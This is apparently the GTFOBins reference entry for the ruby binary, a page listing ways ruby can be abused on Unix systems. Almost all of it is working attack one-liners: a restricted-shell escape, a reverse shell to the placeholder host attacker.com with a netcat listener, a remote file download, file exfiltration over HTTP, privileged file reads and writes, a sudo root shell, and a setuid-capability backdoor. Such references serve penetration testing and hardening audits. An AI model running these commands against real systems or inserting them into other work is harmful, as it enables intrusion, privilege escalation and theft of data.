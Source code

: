 # GTFOBin: ruby

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ruby -e 'exec "/bin/sh"'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## File upload

It can exfiltrate files on the network.

Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.

```
export LPORT=8888
ruby -run -e httpd . -p $LPORT
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
ruby -e 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
ruby -e 'puts File.read("file_to_read")'
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ruby -e 'exec "/bin/sh"'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```
cp $(which ruby) .
sudo setcap cap_setuid+ep ruby

./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
```